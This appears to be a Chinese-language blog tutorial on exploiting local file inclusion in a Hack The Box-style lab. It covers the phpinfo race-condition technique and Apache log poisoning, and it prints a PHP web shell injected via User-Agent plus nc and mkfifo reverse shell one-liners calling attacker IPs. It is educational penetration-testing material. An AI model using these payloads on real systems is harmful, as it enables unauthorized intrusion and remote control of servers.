 ```yaml
---
title: LFI漏洞利用
date: 2021/12/12
tags: [渗透测试,漏洞利用]
categories: 渗透测试
top_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_18.jpg
cover: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_18.jpg
---
```




# LFI 漏洞的利用

---

[参考链接1](https://medium.com/swlh/hack-the-box-poison-writeup-w-o-metasploit-a6acfdf52ac5)

[参考链接2](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/)

- LFI(本地文件包含漏洞)，这篇文章将介绍有关该漏洞的一些利用

###  1、phpinfo 漏洞信息利用

- 将LFI漏洞转变为远程代码执行（RCE）漏洞的竞争条件，服务器端需要满足以下条件：
    - LFI漏洞
    - 任何显示PHPInfo()配置输出的脚本
- [**脚本下载地址**](https://github.com/mxrmiss/Automation-script/blob/03406f1e18b9cbdcf832941b3bad224d99a0f55e/phpinfo.py)

- 得到脚本后，我们需要修改脚本中的攻击载荷, 使用命令 `locate php-reverse` 定位可用的php载荷位置

```
/usr/share/laudanum/php/php-reverse-shell.php
```

- 将载荷中的内容复制到脚本中, 替换图片中横线部分

![1](https://herozql.oss-cn-beijing.aliyuncs.com/p/o/1.png)

- 修改载荷中的IP地址和端口，然后将脚本的 LFIREQ 参数更改为我们在burpsuit中看到的参数。如：

```
LFIREQ="""GET /browse.php?file=%s
```

- 我们还必须将所有“=>”更改为“=>”，以便脚本正确编译。

- 然后使用nc接收反弹的shell
- 运行脚本 `python3 phpinfo.py xxxip xxxport` (受害者ip和端口)

### 2、日志中毒

- 原理
    - 日志中毒背后的想法是将一些 php 放入日志中，然后将它们加载到 php 将执行的位置。如果我们查看访问日志，我们会看到每次访问该站点时，都会有一个条目，其中包含所访问的 url 和浏览器访问的用户代理字符串。
    - 最简单的情况是更改我们的用户代理字符串，使其包含 php，然后将该日志文件包含在我们的 LFI 中。我们也可以毒化 url 字段，但访问类似`http://10.10.10.84/browse.php?not_an_arg=[php code]`. 只要我们能把我们的php写入日志，我们就成功了。

- 我们需要定位到日志文件的位置，这里以apache为例，通过google我们可以知道配置文件一般在 `/usr/local/etc/apache24/httpd.conf` 目录，查看配置文件，我们可以找到日志文件位置：

```
ErrorLog "/var/log/httpd-error.log"
CustomLog "/var/log/httpd-access.log"
```

- 打开burpsuit，获取日志文件页面页面并对其修改
- 由于用户代理(User-Agent)这一部分是由我们用户决定的，所以我们可以将这一部分换成我们的漏洞代码

```
<?php system($_GET['c']); ?>
```

- 通过修改参数c的值，我们可以在网页得到不同的结果

- 于是将反弹shell传值给c，第一次使用代码`nc -e /bin/bash 10.10.14.27 4444` ,结果只是连接上了靶机，但是未能反弹shell，这就说明了靶机的nc版本不支持-e 参数，于是使用nc的另一种反弹shell方式，代码：

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

- 查看本地监听器，会发现有结果了